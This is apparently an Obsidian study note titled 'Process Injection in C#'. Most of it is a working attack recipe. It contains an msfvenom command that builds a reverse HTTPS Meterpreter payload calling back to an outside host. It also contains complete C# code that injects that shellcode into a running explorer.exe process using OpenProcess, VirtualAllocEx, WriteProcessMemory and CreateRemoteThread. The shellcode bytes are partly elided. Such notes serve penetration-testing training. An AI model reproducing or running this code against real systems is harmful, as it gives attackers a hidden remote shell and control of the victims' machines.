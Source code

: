 ```yaml
---
creation date: December 28th 2022
last modified date: December 28th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Process Injection in C#]]  
___

## Description:  
Meterpreter shell running inside explorer.exe
Generate shellcode:
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f csharp
```
Full code with process migration: 
```
using System;
using System.Runtime.InteropServices;
namespace Inject
{
 class Program
 {
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int 
processId);
 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
 static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint 
dwSize, uint flAllocationType, uint flProtect);
 [DllImport("kernel32.dll")]
 static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
 [DllImport("kernel32.dll")]
 static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr 
lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint 
dwCreationFlags, IntPtr lpThreadId);
 static void Main(string[] args)
 {
 IntPtr hProcess = OpenProcess(0x001F0FFF, false, 4804);
 IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
 byte[] buf = new byte[591] {
 
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
 ....
 0x0a,0x41,0x89,0xda,0xff,0xd5 };
 IntPtr outSize;
 WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
 IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, 
IntPtr.Zero, 0, IntPtr.Zero);
 }
 }
}
```
Before compiling the project, we need to remember to set the CPU architecture to x64 since we are injecting into a 64-bit process.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 28th 2022 (11:17 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
